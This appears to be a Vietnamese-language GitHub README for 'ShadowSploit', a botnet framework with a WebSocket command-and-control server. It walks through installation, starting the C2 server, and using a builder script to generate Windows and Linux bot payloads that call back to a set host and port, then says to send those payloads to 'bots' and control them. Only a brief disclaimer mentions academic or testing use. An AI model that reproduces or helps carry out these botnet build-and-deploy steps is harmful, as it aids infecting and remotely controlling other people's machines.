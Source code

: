 # ShadowSploit - **Botnet Framework**

## 🚀 **Giới thiệu**

**ShadowSploit** là một framework **botnet** mã nguồn mở được phát triển cho **Kali Linux** và **Windows**. Framework này cho phép bạn xây dựng và quản lý botnet dễ dàng qua **WebSocket C2 Server**. 

### 💡 **Lợi ích**:
- Quản lý botnet qua **giao thức WebSocket**.
- Dễ dàng triển khai và tùy chỉnh.
- Hỗ trợ cả **Windows** và **Linux**.

## 🔧 **Cài đặt**

Để sử dụng **ShadowSploit**, bạn cần cài đặt **Python 3.6 trở lên** và các thư viện cần thiết.

**Bước 1**: Cài đặt các thư viện yêu cầu:
```bash
pip install -r requirements.txt 
```
Bước 2: Clone repository về máy của bạn:
```bash
git clone https://github.com/yourusername/ShadowSploit.git
cd ShadowSploit
```
Bước 3: Tạo môi trường ảo (tuỳ chọn):
```bash
python3 -m venv venv
source venv/bin/activate   # Trên Linux / macOS
venv\Scripts\activate      # Trên Windows
```
Bước 4: Cài đặt các phụ thuộc:
```bash
pip install -r requirements.txt
```
🖥️ Cách sử dụng
Chạy WebSocket Server
Sau khi cài đặt xong, bạn cần chạy WebSocket C2 Server để có thể điều khiển botnet:
```bash
python3 server.py
```
Server này sẽ lắng nghe kết nối từ các bot.

Tạo Payload cho Windows hoặc Linux
Để tạo payload cho các bot, bạn có thể sử dụng builder.py. Chạy lệnh sau để tạo payload tương ứng với hệ điều hành:

Payload cho Windows:
```bash
python3 builder.py --payload windows --host 192.168.1.100 --port 8080 --output botnet.exe
```
Payload cho Linux:
```bash
python3 builder.py --payload linux --host 192.168.1.100 --port 8080 --output botnet.elf
```
Kết nối Bot với Server
Sau khi tạo payload và gửi cho các bot, chúng sẽ tự động kết nối với WebSocket Server bạn đã khởi động ở bước trước. Bạn có thể bắt đầu điều khiển chúng thông qua server này.

🔐 Lưu ý
⚠️ ShadowSploit chỉ nên được sử dụng cho các mục đích học thuật và kiểm tra bảo mật.

Không sử dụng cho các hoạt động tấn công bất hợp pháp hoặc xâm nhập vào hệ thống không được phép.

🧑‍💻 Liên hệ
Nếu bạn gặp khó khăn khi sử dụng ShadowSploit, vui lòng mở Issue trên GitHub hoặc gửi email cho chúng tôi tại: youremail@example.com.

Tham gia cộng đồng: GitHub Repository



